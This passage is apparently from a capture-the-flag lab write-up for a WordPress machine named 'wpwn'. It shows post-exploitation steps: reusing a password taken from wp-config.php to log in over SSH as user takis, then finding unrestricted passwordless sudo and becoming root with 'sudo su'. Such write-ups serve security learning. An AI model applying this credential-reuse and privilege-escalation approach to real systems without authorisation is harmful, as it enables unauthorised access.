 `wc -c local.txt`

```
33 local.txt
```

In the **/home** directory we see only user one user: **takis**. In his home directory is a file called **user.txt** which tells us:

```
Your flag is in another file...
```

I check for interesting **SUID** or **SGID** files but there isn't anything out of the ordinary. Same goes with a capabilities check.

<br>

## Takis User

Checking to see if there is password reuse using the one user we found on the system and the password from the **wp-config.php** file:

`ssh takis@192.168.65.123`

```
takis@192.168.65.123's password: 
Linux wpwn 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 28 00:54:31 2022 from 192.168.49.65
takis@wpwn:~$
```

The first thing I check is `sudo -l` and, well, yeah...

```
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
```

<br>

## Root

Running a simple `sudo su` gets us root:

```
takis@wpwn:~$ sudo su
root@wpwn:/home/takis#
```
